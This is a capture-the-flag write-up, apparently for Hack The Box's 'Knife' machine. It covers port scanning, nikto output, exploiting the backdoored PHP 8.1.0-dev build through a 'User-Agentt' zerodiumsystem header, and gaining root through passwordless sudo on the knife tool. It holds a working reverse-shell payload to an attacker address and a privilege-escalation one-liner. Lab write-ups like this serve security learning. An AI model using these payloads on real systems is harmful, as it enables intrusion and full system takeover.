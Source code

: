 # knife

## nmap recon

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-30 22:14 CEST
Nmap scan report for knife.htb (10.10.10.242)
Host is up (0.053s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.57 seconds
```

## website

The website seems a normal http website, [gobuster][1] didn't find nothing usefull.
So we can try scanning the server with `nikto` to see if there is something exploitable

```bash
nikto -host http://knife.htb
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.242
+ Target Hostname:    knife.htb
+ Target Port:        80
+ Start Time:         2021-06-30 22:51:23 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ Retrieved x-powered-by header: PHP/8.1.0-dev
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
```

Server is running PHP 8.1.0-dev which was released with a backdoor that can be used by adding to the request this header:

`"User-Agentt": "zerodiumsystem('command to excecute');"`

So using burpsuit send a request with this header `User-Agentt: zerodiumsystem("/bin/bash -c 'bash -i >&/dev/tcp/10.10.15.25/9001 0>&1'");"` will give us a reverse shell with user james.

![burp](images/burp.png)

## James

James can run via sudo without password `/usr/bin/knife` that seems to be a CLI for Chef Infra Server.

Knife has an exec functionality that can run Ruby code, so we can try to exploit it using [ruby sudo shell code][2] with this command `sudo knife exec -E 'exec "/bin/bash"'` and we are root.

![htbbadge](https://www.hackthebox.eu/badge/image/272787)
![achiv](https://www.hackthebox.eu/storage/achievements/4036085b0b0023bd7a2efb548a88e785.png)

[//]: #links
[1]: gobuster/knife.txt
[2]: https://gtfobins.github.io/gtfobins/ruby/#sudo
